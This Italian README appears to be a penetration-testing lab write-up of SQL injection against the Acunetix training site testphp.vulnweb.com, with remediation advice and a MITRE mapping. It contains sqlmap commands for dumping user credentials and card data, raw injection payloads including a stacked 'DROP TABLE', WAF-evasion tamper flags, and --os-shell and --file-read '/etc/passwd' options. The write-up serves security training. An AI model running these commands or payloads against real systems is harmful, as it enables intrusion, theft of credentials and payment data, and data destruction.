



> [English](README.en.md) | **Italiano**

# Automated vulnerability assessment: SQL injection & data exfiltration

> - **Fase:** Web Attack - SQL Injection (Automated)
> - **Visibilita:** Alta - sqlmap genera molto traffico HTTP in breve tempo, facilmente rilevabile da WAF e IDS
> - **Prerequisiti:** Endpoint vulnerabile identificato (anche tramite test manuale WEB-004), `sqlmap` installato (preinstallato su Kali)
> - **Output:** Fingerprint DBMS, dump tabelle, esfiltrazione dati completa (credenziali, PAN carte di credito), finding WEB-011

---

**ID Finding:** `WEB-011` | **Severity:** `Critico` | **CVSS v3.1:** 9.8

---

## 1 Executive summary

Durante l'attività di Security Assessment automatizzato, è stata rilevata una vulnerabilità critica di tipo SQL Injection sull'endpoint `artists.php`.

L'utilizzo dello strumento SQLMap ha permesso di automatizzare l'intero processo di attacco, confermando la possibilità di iniettare comandi arbitrari nel database backend (MySQL).

L'impatto è valutato come Catastrofico per i seguenti motivi:

- Esfiltrazione Totale: È stato possibile scaricare l'intero database utenti.
- Violazione PCI-DSS: Sono stati rinvenuti numeri di Carte di Credito (PAN) memorizzati in chiaro.
- Gestione Credenziali Insicura: Le password degli utenti sono salvate in chiaro (Plaintext), senza alcuna funzione di Hashing.

---

## 2 Technical execution

#### Phase 1: vulnerability scanning & fingerprinting

In questa fase iniziale, il tool ha interrogato il server per identificare il tipo di database e l'utente corrente. Sono stati rilevati 4 vettori di attacco (Boolean-based, Error-based, Time-based, UNION query).

Comando:

```Bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --banner --current-user --current-db --is-dba
```



Risultato (Recon):

- DBMS: MySQL >= 5.1
- Database Corrente: `acuart`
- Utente Corrente: `acuart@localhost` (Non DBA)

#### Phase 2: database enumeration

Una volta identificato il database target (`acuart`), è stata eseguita l'enumerazione delle tabelle per mappare la struttura dei dati e individuare informazioni sensibili.

Comando:

```Bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables
```



Risultato:

Sono state identificate 8 tabelle. La tabella `users` è stata selezionata come obiettivo primario per l'esfiltrazione.

#### Phase 3: data exfiltration (the breach)

Confermata la presenza della tabella `users`, è stato eseguito il dump completo delle colonne contenenti credenziali e dati personali.

Comando:

```Bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch
```



Analisi dell'Output (Evidence):

Lo screenshot sottostante mostra l'avvenuta estrazione dei dati. SQLMap ha generato un report CSV contenente i record sensibili, incluse password e carte di credito.

Local File Path:

Il dump completo è stato salvato localmente nel percorso: `~/.local/share/sqlmap/output/testphp.vulnweb.com/dump/acuart/users.csv`

---

## 3 Risk analysis & compliance

L'analisi dei dati estratti evidenzia gravi violazioni delle best practice di sicurezza e normative internazionali.

| dato estratto | valore esempio | violazione / rischio |
| --------------- | ---------------- | ---------------------- |
| password | test | critica. le password sono salvate in chiaro (cleartext). mancanza totale di hashing (es. bcrypt, argon2) e salting. un attaccante può impersonare immediatamente qualsiasi utente. |
| credit card (cc) | 1234-5678... | critica (pci-dss). la memorizzazione del pan (primary account number) in chiaro è una violazione diretta dello standard pci-dss requirement 3.4. |
| pii data | email, phone, address | alta (gdpr). esposizione di dati personali che può portare a furto d'identità e sanzioni amministrative elevate. |

---

## 4 Remediation plan

Per mettere in sicurezza l'infrastruttura, si raccomandano le seguenti azioni correttive immediate:

- Codice Sicuro (Preventivo):
    
  - Implementare Prepared Statements (Query Parametrizzate) in tutto il codice PHP per neutralizzare alla radice l'iniezione SQL.

- Data Protection (Correttivo):

  - Password: Migrare immediatamente tutte le password utente su algoritmi di hashing forti (es. `bcrypt` o `Argon2id`). Mai salvare password in chiaro.

  - Carte di Credito: Non memorizzare mai i dati completi della carta di credito se non strettamente necessario. Se richiesto, utilizzare tokenizzazione tramite Payment Gateway o crittografia forte (AES-256) con gestione sicura delle chiavi.

- Infrastruttura:

  - Implementare un Web Application Firewall (WAF) (es. ModSecurity o servizi Cloudflare) per bloccare pattern di attacco SQLMap noti e richieste malevole.

---

## Analisi a basso livello: architettura SQLMap e tecniche di injection

### Come SQLMap identifica il tipo di injection

SQLMap testa sistematicamente ogni parametro con payload specifici per ciascuna tecnica di injection. L'ordine di test segue una priorita basata su affidabilita e rumore:

```
SQLMap Detection Pipeline:

1. Boolean-based blind (B)
   Payload: artist=1 AND 1=1  vs  artist=1 AND 1=2
   Detection: confronta lunghezza/contenuto delle due risposte
   Se diversi -> il parametro influenza la query SQL

2. Error-based (E)
   Payload: artist=1 AND EXTRACTVALUE(1, CONCAT(0x7e, version()))
   Detection: cerca messaggi di errore MySQL/MSSQL/Oracle nella risposta
   Se errore con dati -> il server espone errori SQL

3. Time-based blind (T)
   Payload: artist=1 AND SLEEP(5)
   Detection: misura il tempo di risposta
   Se risposta ritardata di 5s -> il comando SLEEP viene eseguito

4. UNION query (U)
   Payload: artist=-1 UNION SELECT 1,2,3
   Detection: cerca i valori 1,2,3 nella risposta HTML
   Se trovati -> injection UNION confermata (piu veloce per il dump)

5. Stacked queries (S)
   Payload: artist=1; DROP TABLE test--
   Detection: verifica se il server accetta query multiple
   Se accettato -> possibile eseguire INSERT/UPDATE/DELETE
```

### Anatomia del dump: da query a CSV

```
Processo di esfiltrazione UNION-based:

Step 1: Conta colonne
artist=-1 ORDER BY 1-- (ok)
artist=-1 ORDER BY 2-- (ok)
artist=-1 ORDER BY 3-- (ok)
artist=-1 ORDER BY 4-- (errore) -> 3 colonne

Step 2: Identifica colonne visibili
artist=-1 UNION SELECT 'aaa','bbb','ccc'
-> 'bbb' e 'ccc' appaiono nella pagina (colonne 2 e 3)

Step 3: Enumera tabelle
artist=-1 UNION SELECT 1,GROUP_CONCAT(table_name),3
  FROM information_schema.tables WHERE table_schema=database()

Step 4: Enumera colonne della tabella target
artist=-1 UNION SELECT 1,GROUP_CONCAT(column_name),3
  FROM information_schema.columns WHERE table_name='users'

Step 5: Dump dati (una riga alla volta o con GROUP_CONCAT)
artist=-1 UNION SELECT 1,GROUP_CONCAT(uname,0x3a,pass,0x3a,cc),3 FROM users

Output salvato in: ~/.local/share/sqlmap/output/<target>/dump/<db>/<table>.csv
```

### Flag SQLMap avanzati per engagement reali

```Bash
# Evasione WAF: tamper scripts
sqlmap -u "http://target/page?id=1" --tamper=space2comment,between,randomcase

# Proxy tramite Burp (per analisi traffico)
sqlmap -u "http://target/page?id=1" --proxy="http://127.0.0.1:8080"

# Da richiesta Burp salvata (piu preciso dei parametri manuali)
sqlmap -r request.txt --batch --level=5 --risk=3

# OS Shell (se DBA e MySQL con FILE_PRIV)
sqlmap -u "http://target/page?id=1" --os-shell

# Lettura file dal filesystem del server
sqlmap -u "http://target/page?id=1" --file-read="/etc/passwd"
```

### PCI-DSS requirement 3.4: perche il PAN in chiaro e una violazione critica

Lo standard PCI-DSS richiede che il Primary Account Number (PAN) sia reso illeggibile ovunque sia memorizzato, tramite una di queste tecniche:
- Tokenizzazione (sostituzione con token random)
- Troncamento (mostrare solo le ultime 4 cifre)
- Crittografia forte (AES-256 con key management)
- One-way hash (SHA-256 con salt)

Il finding WEB-011 documenta PAN in chiaro nel database, violazione che in un audit PCI-DSS comporterebbe la revoca immediata della certificazione e potenziali sanzioni finanziarie.

---

## Esperienza di laboratorio

L'esecuzione di sqlmap con `--batch` ha automatizzato tutte le scelte interattive (tipo di injection, database target, colonne da dumpare), completando l'intero processo in meno di 2 minuti. Senza `--batch`, sqlmap richiede conferma ad ogni step, utile per capire cosa sta facendo ma lento in un assessment con molti endpoint.

Il flag `--is-dba` ha restituito `False` per l'utente `acuart@localhost`, il che significa che l'utente non ha privilegi di Database Administrator. Se fosse stato `True`, sqlmap avrebbe potuto usare `--os-shell` per ottenere una shell di sistema via MySQL `INTO OUTFILE` o UDF injection, trasformando una SQL injection in una RCE completa.

La scoperta di carte di credito (PAN) in chiaro nel dump ha trasformato il finding da una vulnerabilita tecnica a una violazione di compliance PCI-DSS. In un engagement reale, questo richiede notifica immediata al cliente e interruzione del dump: il pentester non deve esfiltrare piu dati del necessario per dimostrare la vulnerabilita. La best practice e mostrare che il PAN e accessibile (prime/ultime 4 cifre) senza scaricare l'intero dataset.

---

## Mappatura MITRE ATT&CK

| tattica | tecnica | id mitre | descrizione dell'azione |
| :--- | :--- | :--- | :--- |
| initial access | exploit public-facing application | `T1190` | exploitation automatizzata con sqlmap del parametro `artist` vulnerabile a sql injection su `testphp.vulnweb.com` (WEB-011) |
| collection | data from information repositories | `T1213` | dump completo del database `acuart` tramite sqlmap, inclusa la tabella `users` con password in chiaro e numeri pan di carte di credito (WEB-011) |
| exfiltration | exfiltration over web service | `T1567` | salvataggio del dump del database in formato csv locale nel percorso `~/.local/share/sqlmap/output/` (WEB-011) |

---

> **Nota:** La scansione sqlmap e stata condotta su `testphp.vulnweb.com`, ambiente di addestramento
> pubblico Acunetix. Il dump CSV con credenziali e PAN di carte di credito e stato trattato come
> dato sensibile e non pubblicato in questo repository. Il finding WEB-011 include una violazione
> PCI-DSS Requirement 3.4 (memorizzazione PAN in chiaro) che in un engagement reale richiederebbe
> notifica immediata al cliente e procedura di incident response.
